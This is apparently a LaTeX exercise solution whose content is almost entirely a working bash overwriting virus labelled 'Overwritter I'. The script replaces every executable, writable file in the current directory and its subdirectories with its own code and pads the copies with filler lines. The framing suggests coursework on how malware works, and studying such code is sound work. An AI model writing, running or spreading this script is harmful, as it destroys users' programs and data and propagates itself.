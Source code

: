 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\begin{document}
\begin{correction}
\begin{enumerate}
\begin{verbatim}
#Overwritter I
for file in *; do #for every file
    if [ -d $file ]; then # if we encounter a directory
       cd $file #we move into this directory
       for file1 in *; do #for every file du repertoire
	   if [ -x $file1 -a -w $file1 ]; then
               nbligne=$(wc -l $file | cut -d" " -f 1  ) 
               cp "../$0" $file1 #overwrite target file with virus
               count=0
	       while [ $count -le $(($nbligne - 37)) ]; do
	         echo "echo \"on rajoute deslignes\"" >> $file
	         count=$(($count+1))
	       done
	       echo "$count $nbligne $file"
	   fi
       done
       cd ..
    fi
    name1=$(basename $0)
    name2=$(basename "./$file")
    echo "$name1 != $name2 ??"
    if [ "$name1" != "$name2" ]
    then
	if [ -x $file -a -w $file -a "$0" != "./$file" ]; then
            nbligne=$(wc -l $file | cut -d" " -f 1  ) 
            cp $0 $file  #overwrite target file with virus
            count=0
	    while [ $count -le $(($nbligne - 37)) ]; do
		echo "echo \"on rajoute deslignes\"" >> $file
		count=$(($count+1))
	    done
	    echo "$count $nbligne $file"
	fi
    fi
done
\end{verbatim}


\end{enumerate}
\end{correction}
\end{document}
